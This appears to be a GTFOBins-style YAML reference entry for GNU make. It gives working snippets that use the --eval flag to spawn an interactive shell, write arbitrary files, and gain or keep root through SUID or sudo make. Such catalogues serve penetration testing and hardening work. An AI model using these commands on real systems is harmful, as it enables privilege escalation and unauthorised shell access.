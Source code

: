 ```yaml
---
description: All these examples only work with GNU `make` due to the lack of support of the `--eval` flag. The same can be achieved by using a proper `Makefile` or by passing the content via stdin using `-f -`.
functions:
  execute-interactive:
    - code: |
        COMMAND='/bin/sh'
        make -s --eval=$'x:\n\t-'"$COMMAND"
  file-write:
    - description: Requires a newer GNU `make` version.
      code: |
        LFILE=file_to_write
        make -s --eval="\$(file >$LFILE,DATA)" .
  suid-enabled:
    - code: |
        COMMAND='/bin/sh -p'
        ./make -s --eval=$'x:\n\t-'"$COMMAND"
  sudo-enabled:
    - code: |
        COMMAND='/bin/sh'
        sudo make -s --eval=$'x:\n\t-'"$COMMAND"
---
```

